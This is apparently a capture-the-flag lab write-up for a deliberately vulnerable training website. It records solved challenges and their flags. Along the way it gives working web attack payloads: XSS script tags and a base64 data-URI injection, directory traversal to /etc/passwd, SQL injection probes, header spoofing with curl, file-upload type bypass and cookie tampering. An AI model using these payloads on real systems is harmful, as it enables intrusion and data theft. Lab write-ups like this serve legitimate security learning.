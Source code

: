 Cookie md5 admin true

Flag: df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
---

http://10.13.199.248/?page=survey change vote value to 99999

Flag: 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
---

http://10.13.199.248/index.php?page=recover inspect element change reset email to own

Flag: 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
---

Xss on feedback page

`/><script>alert(1);</script>`

Flag: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
---
robots.txt
The file robots.txt is often used on webpages to tell web crawlers how they should access or disallow them from parts of the website,
for example to hide irrelevant results from Google search or prevent the server from overloading from crawlers loading content.

http://{ip}/robots.txt shows there are /whatever and /.hidden directories on the website

dirbuster {ip}/whatever/ directory
http://10.12.179.218/whatever/ has "htpasswd" file 
htpasswd file contents: "root:8621ffdbc5698829397d97767ac13db3"
username root, password is md5 encrypted and decrypts to "dragon"
password doesn't work on the login but trying out subdirectories we find {ip}/admin
login on {ip}/admin

Flag: d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
---
robots.txt 2
/whatever subdirectory

---

request header spoofing
click "© BornToSec" at the bottom of the page, it opens a page with an albatross with a hash in the url, it decrypts to "TAMERE".
inspect element to see comments with hints
"You must cumming from : "https://www.nsa.gov/" to go to the next step"
"Let's use this browser : "ft_bornToSec". It will help you a lot."
curl --referer https://www.nsa.gov/ http://10.12.179.218/\?page\=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c --user-agent "ft_bornToSec" -s | grep flag

Flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
---

Directory traversal

Following many of the links there is a pattern of a url with a parameter "?page=" for example: http://{ip}/?page=survey
Trying to add http://{ip}/?page=../ we see interesting alert messages with each added ../ which seems like a sign there is a directory we can access using this.
One of the messages is "You can DO it !!!  :]" and after trying out the common files an attacker would try to access we finally get 
http://{ip}/?page=../../../../../../../etc/passwd which gives the flag.

Flag: b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

---
Unrestricted file upload of a malicious type
The "Add Image" page does not let you upload files unless they have a .jpg extension.
Looking at the request there is the filename and Content-Type. When a .jpg file is uploaded, it has the Content-Type of image/jpeg. 
However when sending a request with another file extension in the filename but still with Content-Type: image/jpeg we are allowed to upload whatever files we want, 
for example javascript that might then be executed on another user's browser when they view it. Doing this gives us the flag.

Flag: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
---

Image link XSS
There is an image link on the main page: http://{ip}/?page=media&src=nsa
Changing the src parameter we get a wrong answer page but what's interesting is that with for example &src=test123 the html will contain an object tag with our data: 

![](./object_tag/Ressources/object_tag.png)

By encoding javascript into the url using base64 we can get the flag:

`<script>alert(1);</script>` 

base64-> `PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=`

http://{ip}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
---

Members SQL injection

Trying out different inputs we can find out information about the SQL server used, in this case by just inputting an apostrophe ' we find out the site is usingg MySQL which can aid us in constructing queries.

Trying `1 OR 1=1` works and displays all users. The query might look something like this on the server:

`SELECT name FROM members WHERE id = 1 OR 1=1`

Since 1=1 is always true, it returns all the data in the table.
Trying different inputs we can get information from the error messages.

`1 union select 1,2,3 from user -- -`
>Table 'Member_Sql_Injection.user' doesn't exist

The table is called Member_Sql_Injection

Trying 
`1 or 1=1 ORDER BY 1--`, 

`1 or 1=1 ORDER BY 2--` and 

`1 or 1=1 ORDER BY 3--` 
>Unknown column '3' in 'order clause'

There are only 2 columns, first name and last name. 
